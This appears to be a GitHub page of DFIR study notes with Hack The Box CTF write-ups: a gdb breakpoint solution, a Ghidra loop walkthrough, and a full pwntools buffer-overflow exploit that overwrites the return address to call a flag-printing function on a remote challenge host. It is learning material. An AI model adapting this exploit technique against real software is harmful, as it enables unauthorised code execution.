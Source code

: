 These are thier own seperate categories. But there is overlap in DFIR and knowing how to do these can develop skills which will help in DFIR. 


# Break points

HTB hacktheboo2023 CTF had a rev challenge `ghost in the box`. It was a very easy challenge with essentially the only thing needed to do was set a breakpoint.

First running the program we see we get a currpt output.

![image](https://github.com/dbissell6/DFIR/assets/50979196/172cf7e6-a7b8-40fb-ba21-9e48544d025f)


Disassemble main notice +143 get flag and +155 ghost

![image](https://github.com/dbissell6/DFIR/assets/50979196/a1bfcbea-cc61-4264-b4ce-eaea65fec747)

First intuition is the ghost function is overwriting and scrambing the getflag. to check this we can set a breakpoint inbetween the getflag and ghost functions


![image](https://github.com/dbissell6/DFIR/assets/50979196/33413e74-9b2c-435d-b1e5-a47d542b3247)

can see the flag intact in the registers. 

![image](https://github.com/dbissell6/DFIR/assets/50979196/eea8c14b-d4d8-491e-8c68-ce6b24d86d0c)


# Buffer overflow + pwntools

HTB hacktheboo2023 pwn challenge called lemonade stand. Notice a buffer overflow allowing to take control of rip and a function called grapes that will drop the flag. Execute with pwntools.


![image](https://github.com/dbissell6/DFIR/assets/50979196/7504632e-f5ae-4495-b2d8-a36d00d180d7)


Grapes

![image](https://github.com/dbissell6/DFIR/assets/50979196/7229d0a6-1b8e-4a82-89e8-2375542bff07)


Complete pwntools script
```

from pwn import *
import warnings
import os

# Set up pwntools for the correct architecture
context.arch = 'amd64'
context.log_level = 'critical'

# This will allow pwntools to access locally to find location of function
fname = './lemonade_stand_v1'
e = ELF(fname)

# Address of the 'grapes_mem' function
# Notice retn will == p64(e.sym.grapes)
grapes_mem = '0x00000000004008cf'
print(grapes_mem, p64(e.sym.grapes))


# Connect to the server
target_host = '94.237.59.206'  # replace with the target IP address
target_port = 38999       # replace with the target port number
r = remote(target_host, target_port)

# Payload crafting
offset = 94
padding = b'A' * offset
rbp = b'B' * 8
retn = '\xcf\x08\x40\x00\x00\x00\x00\x00'

# Interacting with the program
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'1')
r.recvuntil(b'>> ')
r.sendline(b'1')


# Finalizing the payload
# p1 uses ret and the manual, p2 uses 
payload = flat([padding, rbp, retn])
payload2 = flat([padding, rbp, p64(e.sym.grapes)])

# Sending the payload
# Uncomment whichever choice

#r.sendline(payload)
r.sendline(payload2)

# Keep the connection alive to see any potential outputs or to interact further
r.interactive()



```

Running Final pwntools output

![image](https://github.com/dbissell6/DFIR/assets/50979196/52eb2bf7-8fc4-46c7-b30b-37c89862fd0d)


# Notes from Reversing with ghidra

https://youtu.be/Y2qd0m4_4ZM?si=E65mh0bnvHduyUKw

## Loops

```
x86_64-w64-mingw32-gcc loop_prac.c -o loop_prac.exe
```

Flow chart is useful to identify loops


![image](https://github.com/dbissell6/DFIR/assets/50979196/d56c5516-4772-4a9b-88fe-e8c796874c1d)

right click to update variable names and hex-dec rep of values

![image](https://github.com/dbissell6/DFIR/assets/50979196/4774e90e-5f8a-40ab-99f4-f0fcbc08a6e7)


![image](https://github.com/dbissell6/DFIR/assets/50979196/54d5b167-411b-4ada-9ba2-c4d9fa5acc51)


